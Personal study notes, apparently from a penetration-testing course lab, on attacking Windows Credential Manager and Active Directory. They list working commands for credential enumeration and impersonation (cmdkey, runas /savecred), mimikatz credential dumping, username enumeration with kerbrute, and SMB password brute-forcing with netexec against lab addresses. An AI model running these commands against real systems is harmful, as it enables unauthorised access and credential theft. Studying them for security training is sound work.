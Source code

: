 
# Attacking Windows Credentials Manager
- Allows users to securely store credentials relevant to other systems and websites
- 2 types
	- Web credentials
	- Windows credentials
1. Enumerate credentials stored in current user's profiles
	- `cmdkey /list`
2. For domain credentials, eg. `Domain:interactive=SRV01\mcharles`
	- `Interactive` means credential used for interactive logon sessions
	- Can impersonate the stored user
		- `runas /savecred /user:SRV01\mcharles cmd`
			- Attempts to start cmd as user "SRV01\mcharles"
3. Extract credentials with mimikatz
	- `mimikatz.exe`
	- `privilege::debu`
	- `sekurlsa::credman`
<kiv, come back to this>


# Attacking AD and NTDS.dit
- This section focus on extracting credentials through **dictionary attack** on AD accounts and **dumping hashes** from NTDS.dit
- (Assume already have a foothold on internal network)
- Windows login protocol:
	- When a Windows system is joined to domain, will no longer defauult to SAM to validate logon request
		- Instead it will send authenticaiton requests to domain controller (DC)
	- But SAM can still be used
		- By specifying hostname of device proceeded by Username (eg. WS01\nameofuser) or with direct acccess to device then typing .\ at logon UI in username field

Dictionary attack with Netexec:
1. Tailor dictionary based on naming convention
	- There are diff naming conventions like 
		- `firstinitiallastname`
		- `firstinitialmiddleinitiallastname`
	- Can often find email structure by Googling domain name, eg @inlanefreight.com to get valid emails. Then use script to scrape social media sites and mashup potential valid usernames. Can use google dorks to search for 'inlanefreight.com filetype: pdf', find valid usernames in PDF properties. 
	- Automated list generator
		- `git clone https://github.com/urbanadventurer/username-anarchy
		- `./username-anarchy -i names.txt 
2. Username Bruteforcing with Kerbrute
	- `./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt`
	- See which usernames from above even work, identify naming convention..
3. Brute force attack aginst target domain controller with tool like NetExec
	- Can use with SMB protocol (like in prev examples) to send logon requests to target DC
	- `netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt`
	